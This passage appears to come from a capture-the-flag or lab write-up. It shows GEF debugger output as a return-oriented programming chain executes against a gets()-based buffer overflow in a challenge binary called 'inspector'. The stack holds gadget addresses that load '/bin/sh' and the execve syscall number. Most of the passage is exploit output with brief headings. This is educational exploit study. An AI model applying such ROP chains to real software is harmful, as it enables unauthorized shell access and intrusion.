 ###### We can see our gadget code coming up now that we've gotten to the breakpoint where main returns:
```
Breakpoint 1, 0x0000000000400678 in main ()

registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe248  →  "/home/kali/Desktop/6-Week/inspector"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffddc8  →  0x000000000040062e  →  <gadget_2+4> pop rdi
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00000000006022a1  →  0x6361616162616161 ("aaabaaac"?)
$rdi   : 0x00007ffff7fa0a40  →  0x0000000000000000
$rip   : 0x0000000000400678  →  <main+46> ret 

stack ────
0x00007fffffffddc8│+0x0000: 0x000000000040062e  →  <gadget_2+4> pop rdi     ← $rsp
0x00007fffffffddd0│+0x0008: 0x0000000000400708  →  0x0068732f6e69622f ("/bin/sh"?)
0x00007fffffffddd8│+0x0010: 0x0000000000400636  →  <gadget_3+4> pop rsi
0x00007fffffffdde0│+0x0018: 0x0000000000000000
0x00007fffffffdde8│+0x0020: 0x000000000040063e  →  <gadget_4+4> pop rdx
0x00007fffffffddf0│+0x0028: 0x0000000000000000
0x00007fffffffddf8│+0x0030: 0x0000000000400646  →  <gadget_5+4> pop rax
0x00007fffffffde00│+0x0038: 0x000000000000003b (";"?)

 code:x86:64 ────
     0x40066d <main+35>        call   0x4004f0 <gets@plt>
     0x400672 <main+40>        mov    eax, 0x0
     0x400677 <main+45>        leave  
 →   0x400678 <main+46>        ret    
   ↳    0x40062e <gadget_2+4>     pop    rdi
        0x40062f <gadget_2+5>     ret    
        0x400630 <gadget_2+6>     pop    rbp
        0x400631 <gadget_2+7>     ret    
        0x400632 <gadget_3+0>     push   rbp
        0x400633 <gadget_3+1>     mov    rbp, rsp
 threads ────
```


###### Breakpoint 2: Gadget A
```
Breakpoint 2, 0x000000000040062e in gadget_2 ()

registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe248  →  "/home/kali/Desktop/6-Week/inspector"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffddd0  →  0x0000000000400708  →  0x0068732f6e69622f ("/bin/sh"?)
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00000000006022a1  →  0x6361616162616161 ("aaabaaac"?)
$rdi   : 0x00007ffff7fa0a40  →  0x0000000000000000
$rip   : 0x000000000040062e  →  <gadget_2+4> pop rdi
$r8    : 0x0000000000602319  →  0x0000000000000000

 stack ────
0x00007fffffffddd0│+0x0000: 0x0000000000400708  →  0x0068732f6e69622f ("/bin/sh"?)     ← $rsp
0x00007fffffffddd8│+0x0008: 0x0000000000400636  →  <gadget_3+4> pop rsi
0x00007fffffffdde0│+0x0010: 0x0000000000000000
0x00007fffffffdde8│+0x0018: 0x000000000040063e  →  <gadget_4+4> pop rdx
0x00007fffffffddf0│+0x0020: 0x0000000000000000
0x00007fffffffddf8│+0x0028: 0x0000000000400646  →  <gadget_5+4> pop rax
0x00007fffffffde00│+0x0030: 0x000000000000003b (";"?)
```